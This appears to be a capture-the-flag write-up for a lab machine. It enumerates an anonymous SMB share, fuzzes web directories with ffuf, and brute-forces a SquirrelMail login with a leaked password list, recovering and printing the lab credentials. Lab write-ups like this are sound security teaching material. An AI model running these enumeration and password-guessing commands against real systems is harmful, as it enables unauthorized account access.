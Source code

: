 ```shell
```
There is an anonymous share we can access that without password.
```shell
smbclient //$ip/anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 26 21:04:00 2020
  ..                                  D        0  Tue Sep 17 12:20:17 2019
  attention.txt                       N      163  Wed Sep 18 08:04:59 2019
  logs                                D        0  Wed Sep 18 09:42:16 2019

		9204224 blocks of size 1024. 5818464 blocks available
smb: \> cd logs
smb: \logs\> ls
  .                                   D        0  Wed Sep 18 09:42:16 2019
  ..                                  D        0  Thu Nov 26 21:04:00 2020
  log2.txt                            N        0  Wed Sep 18 09:42:13 2019
  log1.txt                            N      471  Wed Sep 18 09:41:59 2019
  log3.txt                            N        0  Wed Sep 18 09:42:16 2019

		9204224 blocks of size 1024. 5818460 blocks available
```

`log1.txt` have some kind of password list.

`attention.txt` mentioned the name `Miles Dyson`

**HTTP**

*Content-Discovery Result*
```
ffuf -w /usr/share/wordlist/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://$ip/FUZZ
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 188ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 188ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 188ms]
config                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 189ms]
ai                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 188ms]
squirrelmail            [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 248ms]
```

`squirrelmail` have a login funtionality

After trying user `milesdyson` with `log1.txt` passwords on above endpoint found valid credentials

```shell
ffuf -w log1.txt:FUZZ -u http://10.10.108.117/squirrelmail/src/redirect.php -X POST -d "login_username=milesdyson&secretkey=FUZZ&js_autodetect_results=1&just_logged_in=1" -H "Content-Type: application/x-www-form-urlencoded" -fs 1789
```

**Valid Credentials**
```
milesdyson:cyborg007haloterminator
```
Using above credentials we can login to `squirrelmail` server and there are some emails.
